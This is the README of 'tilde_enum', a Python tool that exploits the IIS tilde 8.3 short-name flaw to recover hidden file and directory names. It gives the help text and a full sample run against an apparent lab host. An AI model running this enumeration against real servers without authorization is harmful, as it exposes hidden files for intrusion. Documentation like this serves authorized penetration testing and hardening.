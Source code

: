 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-b] [-d DIRWORDLIST] [-f] [-u URL] [-v] wordlist

Exploits and expands the file names found from the tilde enumeration vuln

positional arguments:
  wordlist        the wordlist file

optional arguments:
  -h, --help      show this help message and exit
  -b              brute force backup extension, extensions
  -d DIRWORDLIST  an optional wordlist for directory name content
  -f              force testing of the server even if the headers do not
                  report it as an IIS system
  -u URL          URL to scan
  -v              verbose output
  -w WAIT         time in seconds to wait between requests
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/predictableres/raft-small-words-lowercase.txt -d /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://iis/mhxWjUz25u.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://iis/parameter.xml
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://iis/documentation/
[*]  Found one! (Size 1433) http://iis/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://iis/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://iis/documentation/advertising.html
[*]  Found one! (Size 1433) http://iis/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://iis/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://iis/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/documentation/advertising.html  - Size 227
[*]      http://iis/documentation/default.aspx  - Size 1433
[*]      http://iis/javascript/321.xlsx  - Size 227
[*]      http://iis/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/documentation/advert~1.htm
[*]      http://iis/documentation/defaul~1.asp
[*]      http://iis/765432~1.htm
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://iis/documentation/  - Size 1433
[*]      http://iis/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://iis/_vti_s~1/
[?]      http://iis/aspnet~1/
[?]      http://iis/copyof~1/
[?]      http://iis/docume~1/
[?]      http://iis/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>
